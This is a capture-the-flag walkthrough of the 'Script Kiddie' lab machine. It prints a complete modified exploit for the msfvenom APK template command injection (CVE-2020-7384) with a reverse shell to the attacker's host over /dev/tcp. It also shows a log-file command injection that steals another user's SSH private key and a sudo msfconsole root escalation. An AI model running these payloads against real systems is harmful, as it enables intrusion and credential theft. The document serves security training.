







Script Kiddie
Table of Contents
Enumeration
As usual, we start with an Nmap scan:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET $ nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.129.74.36 Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET Nmap scan report for 10.129.74.36 Host is up (0.046s latency). Not shown: 65533 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA) | 256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA) |_ 256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519) 5000/tcp open http Werkzeug httpd 0.16.1 (Python 3.8.5) |_http-title: k1d'5 h4ck3r t00l5 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 50.20 seconds
We can clearly see that there is an HTTP server running in port 5000.
Going to the website (10.129.75.138:5000), we see this page:

Messing around with the website, we can scan the top 100 ports of a specific IP
address, we can also generate msfvenom binaries and we can search exploits.
There are some timesinks here, one of them being command injection checking on all three available fields. I did waste many hours because of it.
But let us not forget about the commands that are running server-side.
From the website, we know that the server is running nmap, msfvenom and
searchsploit.
User Flag
Using the searchsploit utility from the website, we can search nmap or
msfvenom exploits. Nmap has a couple exploits, but msfvenom has one that
is very recent, January 2021: https://www.exploit-db.com/exploits/49491.
It seems that we can use an Android APK template to make msfvenom execute
arbitrary code when it is generating the binary.
We’ll use the above python script, but in our case, we want a payload for a
reverse shell: /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1".
We just replace it in the script and run it. But it will error out, because
there seems to be a problem when using keytool and having + characters in
dname.
Script customization is needed. In this case, after getting the result base64,
we’ll convert the string to an hex string and we also change the dname variable
so it converts from hex string to base64 and then decode the base64 and then
execute the resulting string.
This is the script after the changes:
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection # Exploit Author: Justin Steven # Vendor Homepage: https://www.metasploit.com/ # Software Link: https://www.metasploit.com/ # Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0 # CVE : CVE-2020-7384 #!/usr/bin/env python3 import subprocess import tempfile import os from base64 import b64encode # Change me #payload = 'echo "Code execution as $(id)" > /tmp/win' payload = '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"' # b64encode to avoid badchars (keytool is picky) payload_b64 = b64encode(payload.encode()).decode() payload_hex = "".join("{:02x}".format(ord(c)) for c in payload_b64) #dname = f"CN='|echo {payload_b64} | base64 -d | sh #" dname = f"CN='|echo {payload_hex} | xxd -r -p | base64 -d | sh #" print(f"[+] Manufacturing evil apkfile") print(f"Payload: {payload}") print(f"-dname: {dname}") print() tmpdir = tempfile.mkdtemp() apk_file = os.path.join(tmpdir, "evil.apk") empty_file = os.path.join(tmpdir, "empty") keystore_file = os.path.join(tmpdir, "signing.keystore") storepass = keypass = "password" key_alias = "signing.key" # Touch empty_file open(empty_file, "w").close() # Create apk_file subprocess.check_call(["zip", "-j", apk_file, empty_file]) # Generate signing key with malicious -dname subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass, "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname]) # Sign APK using our malicious dname subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file, "-storepass", storepass, "-keypass", keypass, apk_file, key_alias]) print() print(f"[+] Done! apkfile is at {apk_file}") print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
All we have to do now is run the script and upload the result APK to the website:

When we get the reverse shell, we can see that there is a id_rsa file in the
.ssh directory, we get the contents of the file and we use it to ssh into the
user kid:

In kid home directory, we can get the user.txt flag.
Root Flag
There are some rabbit holes we can get into. We can rapidly see that there is an
odd file (/home/kid/logs/hackers).
The file is referenced in the websites’ app.py file:
def searchsploit(text, srcip): if regex_alphanum.match(text): result = subprocess.check_output(['searchsploit', '--color', text]) return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore')) else: with open('/home/kid/logs/hackers', 'a') as f: f.write(f'[{datetime.datetime.now()}] {srcip}\n') return render_template('index.html', sserror="stop hacking me - well hack you back")
So, if we use special characters in the prompt, it will write current date and
our IP to /home/kid/logs/hackers. For the sake of brevity, we are
going to upload pspy64 to the machine and run it. Now, in the website, if we
use the searchsploit textfield with a special character (e.g.: test;), we
can clearly see what commands are executed on the server:

Everytime the above happens, it seems /home/pwn/scanlosers.sh is executed.
We can peek into that file:
#!/bin/bash log=/home/kid/logs/hackers cd /home/pwn/ cat $log | cut -d' ' -f3- | sort -u | while read ip; do sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" & done if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
This file gets /home/kid/logs/hackers, does a cut by space character, gets
everything from the third free onwards and executes nmap. After that, it cleans
the log file.
From here, we can inject commands into /home/kid/logs/hackers for user pwn
to execute! But we have to be smart about it. We can continue using pspy64 to
check what is executed and to do some trial and error. My initial idea was to
get the id_rsa from user pwn. All I had to do was run this command:
$ echo ";a; a; ;cat .ssh/id_rsa > test;" > logs/hackers
I did insert enough whitespaces because of cut -d’ ‘ -f3- part. Then the
command I wanted to execute (print id_rsa and redirect output to test file
and then redirect everything to /home/kid/logs/hackers).

We get the result and save a new id_rsa in our computer and ssh into pwn.

Something that should be done right away is check if pwn user can run some
commands as superuser!
$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User pwn may run the following commands on scriptkiddie:
(root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
It is possible to execute msfconsole as superuser. We can also run
normal bash commands through msfconsole. Therefore, we just execute bash and
we get a shell session with root permissions.

Navigation to root home directory is required and then we have root.txt to
get the root flag.